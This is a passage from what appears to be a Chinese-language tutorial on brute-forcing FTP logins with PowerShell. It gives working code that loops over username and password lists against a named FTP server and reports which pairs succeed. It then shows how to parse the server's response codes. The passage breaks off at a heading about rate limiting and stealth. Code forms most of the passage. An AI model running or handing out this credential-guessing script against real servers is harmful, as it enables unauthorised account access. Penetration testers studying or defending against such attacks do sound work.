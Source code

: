 ```
 $ftpServer = "ftp.snowcapcyber.com"
$ftpPort = 21
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
        # Attempt FTP login
        $ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://${ftpServer}:${ftpPort}")
        $ftpRequest.Credentials = $credentials
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectory
        try {
            $ftpResponse = $ftpRequest.GetResponse()
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        }
        catch [System.Net.WebException] {
            # Handle FTP server response (e.g., incorrect credentials)
            $errorMessage = $_.Exception.Message
            Write-Host "Login failed: $username:$password - $errorMessage"
        }
    }
}
```

该脚本尝试使用每个用户名和密码组合进行登录。它使用 **FtpWebRequest** 类创建 FTP 连接，并处理服务器的响应。成功的登录将触发进一步的操作，而失败的尝试及相应的错误信息将被捕获。

## 处理 FTP 服务器的响应

FTP 服务器通过不同的代码响应，指示登录尝试的成功与失败。PowerShell 脚本可以解析这些响应，以确定每次暴力破解尝试的结果。例如，以 **2** 开头的响应代码表示成功，而 **4** 或 **5** 则表示错误：

```
 try {
    $ftpResponse = $ftpRequest.GetResponse()
    $responseCode = [int]$ftpResponse.StatusCode
    if ($responseCode -ge 200 -and $responseCode -lt 300) {
        Write-Host "Login successful: $username:$password"
        # Perform additional actions based on a successful login
    } else {
        Write-Host "Login failed: $username:$password - Unexpected response code: $responseCode"
    }
}
catch [System.Net.WebException] {
    # Handle expected errors (e.g., incorrect credentials)
    $errorMessage = $_.Exception.Message
    Write-Host "Login failed: $username:$password - $errorMessage"
}
```

## 限制速率与隐蔽性
